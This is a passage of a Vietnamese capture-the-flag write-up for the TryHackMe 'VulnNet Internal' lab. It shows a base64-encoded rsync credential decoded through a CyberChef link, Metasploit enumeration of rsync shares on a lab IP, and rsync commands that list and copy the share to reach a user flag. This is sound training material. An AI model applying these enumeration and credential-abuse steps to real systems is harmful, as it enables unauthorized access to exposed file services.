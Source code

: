 Mở file này thì tôi có flag thứ 2 và 1 public key

Tuy nhiên cũng ở file này, tôi để ý thấy có 1 đoạn code khá lạ, có thể là base64

![code](/assets/img/2022-04-08-THM-VulnNet-Internal/3.webp)

Sau 1 lúc thử cho đúng format của đoạn code này thì tôi đã decrypt được 

Nó ở [đây](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UVhWMGFHOXlhWHBoZEdsdmJpQm1iM0lnY25ONWJtTTZMeTl5YzNsdVl5MWpiMjV1WldOMFFERXlOeTR3TGpBdU1TQjNhWFJvSUhCaGMzTjNiM0prSUVoalp6TklVRFkzUUZSWFFFSmpOekoyQ2c9)

Nhớ rằng bên trên cũng có rsync với port 873. Tôi quay trở lại Book Hacktrick để tìm cách khai thác.

Sử dụng `metasploit` tôi tìm được file share là *files*

```python
msf6 auxiliary(scanner/rsync/modules_list) > run

[+] 10.10.116.142:873     - 1 rsync modules found: files
[*] 10.10.116.142:873     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/rsync/modules_list) > 
```

Bây giờ thử `rsync` như hướng dẫn, thử với password vừa tìm được ở *CyberChef* phía trên

```python
┌──(kali㉿kali)-[~]
└─$ rsync -av --list-only rsync://rsync-connect@10.10.116.142/files
```

Nó list ra tất cả các file có trong thư mục share này, tất nhiên là quá dài nên tôi sẽ không ghi vào đây. Để đọc được các file này, tôi phải clone nó về máy local 

```python
┌──(kali㉿kali)-[~]
└─$ rsync -av rsync://rsync-connect@10.10.116.142/files /home/kali/rsync 
```

Quay lại máy local

```python
┌──(kali㉿kali)-[~/rsync/sys-internal]
└─$ ll
total 36
drwx------ 2 kali kali 4096 Feb  1  2021 Desktop
drwxr-xr-x 2 kali kali 4096 Feb  1  2021 Documents
drwxr-xr-x 2 kali kali 4096 Feb  1  2021 Downloads
drwxr-xr-x 2 kali kali 4096 Feb  1  2021 Music
drwxr-xr-x 2 kali kali 4096 Feb  1  2021 Pictures
drwxr-xr-x 2 kali kali 4096 Feb  1  2021 Public
drwxr-xr-x 2 kali kali 4096 Feb  1  2021 Templates
-rw------- 1 kali kali   38 Feb  6  2021 user.txt
drwxr-xr-x 2 kali kali 4096 Feb  1  2021 Videos
```
